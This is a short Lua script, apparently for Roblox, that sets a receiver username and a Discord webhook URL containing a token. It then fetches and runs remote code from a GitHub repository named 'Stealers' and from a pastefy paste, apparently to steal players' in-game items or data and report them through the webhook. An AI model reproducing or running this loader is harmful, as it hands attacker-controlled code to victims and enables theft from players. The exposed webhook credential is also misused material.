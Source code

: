 Receiver = "NoahTyrant"
Webhook = "https://discord.com/api/webhooks/1261718729700409374/Pr05IfDSPvLPfkcBE3OuX9Y2Xq-2B8q_ScWa_DpxLvBAjjIL9Q0CEKyzJUof7OXBa_Nv"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Ezjq/Stealers/main/losg.lua"))()
loadstring(game:HttpGet(('https://pastefy.app/FPGI0uTW/raw'),true))()
